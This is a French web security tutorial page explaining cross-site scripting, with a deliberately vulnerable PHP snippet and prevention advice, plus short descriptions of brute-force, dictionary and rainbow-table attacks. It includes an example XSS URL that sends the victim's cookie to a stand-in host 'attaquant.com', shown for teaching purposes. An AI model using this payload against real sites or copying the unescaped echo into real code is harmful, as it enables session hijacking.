 <h3>Exemple d'attaque XSS</h3>

<div class="code-example">
<div class="code-title">Code vulnérable (PHP)</div>
```php
// Affichage direct de l'entrée utilisateur - DANGEREUX !
echo "Bonjour " . $_GET['nom'];
```
</div>

<div class="code-example">
<div class="code-title">URL malveillante</div>
```
http://site-vulnerable.com/page.php?nom=<script>alert('XSS!')</script>

// Ou plus dangereux :
http://site-vulnerable.com/page.php?nom=<script>document.location='http://attaquant.com/steal.php?cookie='+document.cookie</script>
```
</div>

<div class="prevention-box">
<div class="prevention-title">🛡️ Prévention des attaques XSS</div>
<ul>
<li><strong>Échappement HTML</strong> : htmlspecialchars(), htmlentities()</li>
<li><strong>Validation des entrées</strong> : Filtrage strict des données</li>
<li><strong>Content Security Policy (CSP)</strong> : Contrôle des ressources</li>
<li><strong>HttpOnly cookies</strong> : Protection contre le vol de cookies</li>
</ul>
</div>

</div>

---

<div class="concept-section">
<h2 class="section-title">🔨 Autres attaques courantes</h2>

<h3>Attaques par force brute</h3>

<div class="vulnerability-grid">
<div class="vulnerability-card severity-medium">
<h4>🔐 Brute Force HTTP</h4>
<p>Tentatives répétées de connexion avec différents mots de passe pour forcer l'authentification.</p>
</div>

<div class="vulnerability-card severity-medium">
<h4>📝 Dictionary Attack</h4>
<p>Utilisation d'une liste de mots de passe courants pour tenter de s'authentifier.</p>
</div>

<div class="vulnerability-card severity-high">
<h4>🌈 Rainbow Tables</h4>
<p>Tables précalculées de hachages pour casser rapidement les mots de passe faibles.</p>
</div>
</div>
